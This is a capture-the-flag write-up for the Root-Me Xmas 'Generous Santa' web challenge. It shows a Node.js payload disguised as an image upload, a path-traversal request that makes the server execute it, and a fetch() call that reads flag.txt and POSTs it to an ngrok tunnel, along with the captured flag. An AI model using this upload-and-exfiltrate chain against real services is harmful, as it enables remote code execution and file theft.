```yaml
---
layout: Post
format: chall
title: Day 01 - Generous Santa
date: 2024-12-02
ctf: Root-Xmas
tags: [LFI, RCE]
category: [Web]
---
```

# Day 01 - Generous Santa

<a class="back-link" href="../../">< Go back</a>

## Description

The number of Santa's lunti has increased by 1337 this year, and there are a lot of them! Thanks to this, they've been able to give you some very, very nice gifts. If you can't find what you're looking for, you can even suggest gifts to him - maybe they'll make them in time!

<https://day1.challenges.xmas.root-me.org/>
Author : Elweth

all files in [resources/](./resources) were provided.

## Challenge

Looking at the source code we learn that the website has a `/flag.txt` tht we need to reveal.

A system of gifts allows us to add/suggest gifts:

- `suggest`: LFI, inject our payload on the server as a fake image
- `add`: RCE, execute our payload on the server

I spent a good amount of time trying all the textbook LFI payloads, but none of them worked, so instead, because we have the source code I decided to skip the LFI and work on the RCE.

### Local File Inclusion

We need to come up with a payload that can either read or exfiltrate the flag. I'll try the latter.

```js

fetch("https://9a64-77-140-212-69.ngrok-free.app/", {
    method: 'POST',
    body: encodeURIComponent(require('fs').readFileSync('../../../../flag.txt', 'utf8')),
});
```

Now remember that we are only allowed to POST `image/*` files, so let's just name our file `rev.jpg` and intercept the packet with Burp to change it back to `.js`.

### Remote Code Execution

I'll use `ngrok` to get the remove server to send me the flag. Let's build a [server.py](server.py), it's just a reverse POST server to receive the flag.

Let's run everyhing:

```bash
python3 server.py
# new terminal
ngrok http 8082
# new terminal
# Upload the image to the website, intercept it, change it's extension to `.js`
# From the response, we get the path where the file is stored.
curl \
  -X POST https://day1.challenges.xmas.root-me.org/api/add  \
  -H "Content-Type: application/json"                       \
  --data-raw '{"product":"../../../../../../tmp/2024-12-02_23-23-38/rev2.js"}'
```

Running the curl shows the falg in our server:

```
The flag is :

RM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}
127.0.0.1 - - [03/Dec/2024 00:24:04] "POST / HTTP/1.1" 200 -
```
